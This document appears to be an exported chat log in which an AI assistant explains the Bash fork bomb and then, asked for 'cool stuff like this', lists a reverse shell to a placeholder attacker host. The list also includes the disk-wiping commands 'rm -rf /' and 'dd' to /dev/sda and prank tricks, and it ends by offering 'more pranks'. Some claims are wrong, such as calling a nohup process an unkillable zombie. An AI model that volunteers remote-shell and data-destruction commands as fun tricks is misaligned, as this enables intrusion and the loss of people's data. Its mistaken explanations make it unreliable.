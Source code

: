 ```yaml
---
title: Fork bomb explanation
tags: []
created: '2025-07-19'
updated: '2025-07-19'
summary:
draft: false
---
```


# Fork bomb explanation

## ✅ TODOs


## 📌 Summary
what this does? :() { :|:& };:

## 🧠 Full Chat


what this does? :() { :|:& };:



That is a **fork bomb**, a type of denial-of-service (DoS) attack on a system. It is a Bash function that recursively spawns copies of itself until the system runs out of resources (processes, memory, CPU). Here's how it works:

### Breakdown:
```bash
:() { :|:& };:
```
- `:()` → Defines a function named `:` (yes, just a colon).
- `{ :|:& };` → The function does the following:
  - `:|:` → Calls itself (`:`) and pipes the output to another instance of itself.
  - `&` → Runs the process in the background.
- `:` → Executes the function immediately.

### What happens?
1. The function `:` is called.
2. Each call spawns two more copies of itself.
3. The process rapidly grows exponentially.
4. Eventually, the system runs out of resources (processes, memory), leading to a crash or making it unusable.

### How to protect against it?
- Set process limits using `ulimit`:
  ```bash
  ulimit -u 1000  # Limits the number of user processes
  ```
- Use control groups (`cgroups`) to limit process creation.

⚠️ **Warning**: Running this on your system **will likely crash it**.

what other cool stuff like this should I know?

If you’re into quirky, dangerous, or just plain interesting Bash tricks, here are some you might like:

### 1. **Command Substitution Bomb**
A variation of the fork bomb that works differently:
```bash
`$0 & $0`  
```
This recursively calls the script itself in the background, consuming system resources.

---

### 2. **Hex Your Terminal (The Matrix Effect)**
Simulate the Matrix-style falling code:
```bash
echo -e "\e[32m"; while true; do echo $RANDOM $RANDOM $RANDOM $RANDOM; sleep 0.05; done
```
Use `Ctrl + C` to stop it.

---

### 3. **Reverse Shell (Ethical Hacking)**
Send a remote shell to an attacker's machine:
```bash
bash -i >& /dev/tcp/attacker_ip/4444 0>&1
```
This allows an attacker to execute commands remotely (if their machine is listening via `nc -lvp 4444`).

---

### 4. **Write Data to RAM (Create a RAM Disk)**
Speed up file operations by writing directly to RAM:
```bash
mkdir /mnt/ramdisk
mount -t tmpfs -o size=512M tmpfs /mnt/ramdisk
```
Files in `/mnt/ramdisk` will be blazing fast but disappear on reboot.

---

### 5. **Fork a Process that Can’t Be Killed (Zombie Process)**
Run this, and the process will refuse to die with `kill`:
```bash
nohup tail -f /dev/null &
```
To stop it, use `kill -9 <PID>`.

---

### 6. **Turn Off a System Instantly (If You Hate It)**
```bash
:(){ :|:& };:  # Fork bomb (again, in case you forgot)
rm -rf /  # Deletes everything (DO NOT RUN)
dd if=/dev/zero of=/dev/sda bs=1M  # Overwrites disk (DO NOT RUN)
```
These are *not* recommended unless you're testing in a sandbox or just want to destroy something for fun.

---

### 7. **Simulate a Typing Effect**
```bash
echo "Hello, world!" | pv -qL 10
```
The `pv` command lets you control output speed like an old-school terminal.

---

### 8. **Create an Endless File**
```bash
yes "Hello world" > bigfile.txt
```
This creates a massive file rapidly. To stop it, use `Ctrl + C`.

---

### 9. **Confuse a User with a Fake Progress Bar**
```bash
while true; do echo -n "Processing..."; sleep 0.5; echo -n "."; sleep 0.5; echo -n "."; sleep 0.5; echo " Done!"; done
```
It loops forever, making someone think something is happening.

---

### 10. **Make a File Disappear (Without Deleting It)**
```bash
ln -s /dev/null myfile.log
```
Anything written to `myfile.log` is now discarded into the void.

---

Do you want more pranks, security tricks, or automation hacks? 😈